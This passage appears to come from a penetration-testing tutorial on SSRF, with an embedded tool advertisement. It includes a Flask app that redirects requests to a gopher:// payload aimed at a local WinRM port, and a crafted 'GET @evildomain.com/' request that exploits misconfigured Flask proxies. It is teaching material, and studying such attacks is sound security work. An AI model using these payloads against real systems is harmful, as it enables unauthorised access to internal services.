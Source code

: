 ```python
httpd.socket = ssl.wrap_socket(httpd.socket, certfile="server.pem", server_side=True)
httpd.serve_forever()
```

```python
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)    

@app.route('/')    
def root():    
    return redirect('gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61%6e%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20', code=301)
    
if __name__ == "__main__":    
    app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
```

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=ssrf-server-side-request-forgery) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=ssrf-server-side-request-forgery" %}

## Misconfigured proxies to SSRF

Tricks [**from this post**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies).

### Flask

<details><summary>Flask proxy vulnerable code</summary></details>

Flask allows to use **`@`** as initial character, which allows to make the **initial host name the username** and inject a new one. Attack request:

```http
GET @evildomain.com/ HTTP/1.1
Host: target.com
Connection: close
```

### Spring Boot <a href="#heading-ssrf-on-spring-boot-through-incorrect-pathname-interpretation" id="heading-ssrf-on-spring-boot-through-incorrect-pathname-interpretation"></a>

Vulnerable code:

<figure><img src="../../.gitbook/assets/image (1198).png" alt=""><figcaption></figcaption></figure>
